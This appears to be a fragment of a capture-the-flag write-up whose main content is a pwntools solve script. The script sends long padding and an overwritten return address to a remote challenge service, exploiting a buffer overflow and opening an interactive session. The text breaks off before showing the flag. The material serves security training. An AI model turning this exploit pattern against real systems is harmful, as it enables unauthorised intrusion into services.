 ![desc](/images/buffer_desc.png)

Solve script used - 
```python
from pwn import *

hostname = '34.125.199.248'
port = 4056

conn = remote(hostname, port)

conn.recvuntil(b'Enter some text:')

# payload
padding = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHAAAABBBBCCCCDDDD'
address = p64(0x00000000004011d6)  # Address in little-endian format

payload = padding + address

# Send the payload
conn.sendline(payload)

# Interact with the service
conn.interactive()
```
On running the above code, got the flag - 